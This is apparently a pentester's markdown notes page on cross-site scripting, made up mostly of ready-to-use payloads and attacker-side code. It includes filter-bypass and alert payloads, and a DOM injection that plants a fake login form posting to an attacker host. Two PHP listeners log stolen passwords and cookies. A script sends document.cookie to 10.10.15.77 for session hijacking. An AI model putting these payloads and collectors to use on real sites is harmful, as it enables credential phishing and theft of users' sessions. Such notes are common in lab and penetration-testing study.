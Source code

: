 #xss
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

automation:
https://github.com/mandatoryprogrammer/xsshunter-express

give it a try for stored xss:
* evil svg
* pdf for xss
* `<img src=x onerror=alert(1) />`

typical payload:
blind: ip, cookie, url

[[DOM-based XSS]] payload:
```html
<img src="" onerror=alert(window.origin)>
```

example payload of login form for DOM XSS:
```javascript
'><script>document.write('<h3>Please login to continue</h3><form action=http://PWNIP:PWNPO><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```

server:
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://10.10.15.77/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

```html
<img src=x onerror="&#x61;lert(1)">
```
#### Bypass auto replace
If `<script` is removed:
```html
<<script>test</script>script>alert(1);</script>
```
#### Blind XSS
Common places:
- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header
#### Example of hijacking cookies:
[[Session hijacking]]
Run server:
```php
php -S 0.0.0.0:8000
```

`index.php`
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
script.js
```js
new Image().src='http://10.10.15.77:8000/index.php?c='+document.cookie;
```
payload:
```html
"><script src=http://10.10.15.77:8000/script.js></script>
```
